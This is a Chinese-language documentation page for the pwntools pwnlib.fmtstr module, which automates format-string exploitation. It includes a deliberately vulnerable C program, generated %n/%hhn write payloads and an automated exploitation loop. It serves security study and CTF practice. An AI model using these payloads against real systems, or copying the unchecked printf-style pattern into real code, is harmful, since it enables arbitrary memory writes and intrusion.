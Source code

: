 ## `pwnlib.fmtstr` - 格式化字符串错误执行工具

提供一些工具来执行格式化字符串错误

**Examples**

```
>>> program = tempfile.mktemp()
>>> source  = program + ".c"
>>> write(source, '''
... #include <stdio.h>
... #include <stdlib.h>
... #include <unistd.h>
... #include <sys/mman.h>
... #define MEMORY_ADDRESS ((void*)0x11111000)
... #define MEMORY_SIZE 1024
... #define TARGET ((int *) 0x11111110)
... int main(int argc, char const *argv[])
... {
...        char buff[1024];
...        void *ptr = NULL;
...        int *my_var = TARGET;
...        ptr = mmap(MEMORY_ADDRESS, MEMORY_SIZE, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, 0, 0);
...        if(ptr != MEMORY_ADDRESS)
...        {
...                perror("mmap");
...                return EXIT_FAILURE;
...        }
...        *my_var = 0x41414141;
...        write(1, &my_var, sizeof(int *));
...        scanf("%s", buff);
...        dprintf(2, buff);
...        write(1, my_var, sizeof(int));
...        return 0;
... }''')
>>> cmdline = ["gcc", source, "-Wno-format-security", "-m32", "-o", program]
>>> process(cmdline).wait_for_close()
>>> def exec_fmt(payload):
...     p = process(program)
...     p.sendline(payload)
...     return p.recvall()
...
>>> autofmt = FmtStr(exec_fmt)
>>> offset = autofmt.offset
>>> p = process(program, stderr=PIPE)
>>> addr = unpack(p.recv(4))
>>> payload = fmtstr_payload(offset, {addr: 0x1337babe})
>>> p.sendline(payload)
>>> print hex(unpack(p.recv(4)))
0x1337babe
```

### Example - Payload generation

```
# we want to do 3 writes
writes = {0x08041337:   0xbfffffff,
          0x08041337+4: 0x1337babe,
          0x08041337+8: 0xdeadbeef}

# the printf() call already writes some bytes
# for example :
# strcat(dest, "blabla :", 256);
# strcat(dest, your_input, 256);
# printf(dest);
# Here, numbwritten parameter must be 8
payload = fmtstr_payload(5, writes, numbwritten=8)
```

### Example - Automated exploitation

```
# Assume a process that reads a string
# and gives this string as the first argument
# of a printf() call
# It do this indefinitely
p = process('./vulnerable')

# Function called in order to send a payload
def send_payload(payload):
        log.info("payload = %s" % repr(payload))
        p.sendline(payload)
        return p.recv()

# Create a FmtStr object and give to him the function
format_string = FmtStr(execute_fmt=send_payload)
format_string.write(0x0, 0x1337babe) # write 0x1337babe at 0x0
format_string.write(0x1337babe, 0x0) # write 0x0 at 0x1337babe
format_string.execute_writes()
```

>** _class _ pwnlib.fmtstr.FmtStr**(_execute_fmt, offset=None, padlen=0, numbwritten=0_)   [[source\]](https://github.com/Gallopsled/pwntools/blob/fe6619b336/pwnlib/fmtstr.py)

提供自动化格式化字符串的执行。 

每当自动化进程想要与易受攻击的进程进行通信时，它都会调用一个函数。这个函数带有一个参数，该参数必须发送给易受攻击的进程，并且必须返回进程的返回。

如果没有给出偏移参数，则尝试通过泄漏的堆栈数据找到正确的偏移量。


**Parameters**:

- **execute_fmt**(_function_) \- 函数调用与易受攻击的进程进行通信
- **offset**(_int_) \-  控制的第一个格式化程序的偏移量
- **padlen**(_int_) \- 要在有效载荷之前添加的pad的大小 
- **numbwritten**(_int_) \- 已写入的字节数


实例化一个试图自动利用易受攻击进程的对象 

**Parameters**:

- **execute_fmt**(_function_) \- 函数调用与易受攻击的进程进行通信
- **offset**(_int_) \-  控制的第一个格式化程序的偏移量
- **padlen**(_int_) \- 要在有效载荷之前添加的pad的大小 
- **numbwritten**(_int_) \- 已写入的字节数

>** execute_writes() → None**  [[source\]](https://github.com/Gallopsled/pwntools/blob/fe6619b336/pwnlib/fmtstr.py#L265-277)

生成有效载荷并将其发送给易受攻击的进程


**Returns**:  None

>** write(_addr, data_) → None**  [[source\]](https://github.com/Gallopsled/pwntools/blob/fe6619b336/pwnlib/fmtstr.py#L279-302)

为了声明：我想在`addr`写数据。

**Parameters**:

- **addr**(_int_) \- 你想要写的数据的地址
- **data**(_int_) \- 你想要写入地址的数据

**Returns**:  None

**Examples**: 
```
>>> def send_fmt_payload(payload):
...     print repr(payload)
...
>>> f = FmtStr(send_fmt_payload, offset=5)
>>> f.write(0x08040506, 0x1337babe)
>>> f.execute_writes()
'\x06\x05\x04\x08\x07\x05\x04\x08\x08\x05\x04\x08\t\x05\x04\x08%174c%5$hhn%252c%6$hhn%125c%7$hhn%220c%8$hhn'
```

>** pwnlib.fmtstr.fmtstr_payload**(_offset, writes, numbwritten=0, write_size='byte'_)→ str   [[source\]](https://github.com/Gallopsled/pwntools/blob/fe6619b336/pwnlib/fmtstr.py#L103-178)

使用给定的参数制作有效载荷。它可以为32位或64位架构生成的有效载荷。addr的大小取自`context.bits`

**Parameters**:

- **offset**(_int_) \-  控制的第一个格式化程序的偏移量
- **writes**(_dict_) \-  字典的地址和值`{addr: value, addr2: value2}`
- **numbwritten**(_int_) \- 由printf函数写入的字节数
- **write_size**(_str_) \- 必须为`byte`,`short`或者`int`。如果要逐byte写入，逐short写入或逐int写入（hhn, hn 或者n）
- 
**Returns**: 需要写入的有效载荷

**Examples**: 
```
>>> context.clear(arch = 'amd64')
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00%322419374c%1$n%3972547906c%2$n'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00%47774c%1$hn%22649c%2$hn%60617c%3$hn%4$hn'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00%126c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn%237c%5$hhn%6$hhn%7$hhn%8$hhn'
>>> context.clear(arch = 'i386')
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
'\x00\x00\x00\x00%322419386c%1$n'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
'\x00\x00\x00\x00\x02\x00\x00\x00%47798c%1$hn%22649c%2$hn'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
'\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00%174c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn'
```